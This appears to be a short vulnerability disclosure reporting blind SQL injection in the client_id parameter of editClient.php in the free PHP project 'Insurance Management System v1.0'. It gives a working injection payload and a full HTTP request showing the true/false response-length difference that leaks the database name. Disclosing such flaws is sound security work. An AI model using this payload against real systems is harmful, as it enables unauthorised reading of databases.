 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability File: /insurance/editClient.php?client_id=

Vulnerability location:  /insurance/editClient.php?client_id=,client_id

[+] Payload: /insurance/editClient.php?client_id=1511986256%27%20and%20length(database())%20=4--+ // Leak place ---> client_id

Current database name: lims,length is 4

```sql
GET /insurance/editClient.php?client_id=1511986256%27%20and%20length(database())%20=4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 4084

![image](https://user-images.githubusercontent.com/54017627/166145231-f6a8c536-bb1e-4d06-9503-2d3f2783f59d.png)

![image](https://user-images.githubusercontent.com/54017627/166145253-30315002-51dd-4457-8f8f-8d117d8e22fe.png)

When length (database ()) = 4, Content-Length: 6008

![image](https://user-images.githubusercontent.com/54017627/166145225-dc268e52-5650-4e99-bc9e-df6b2865b96d.png)

![image](https://user-images.githubusercontent.com/54017627/166145241-e1e8f7fa-2d8c-4882-b1ba-235fe2dd20c8.png)


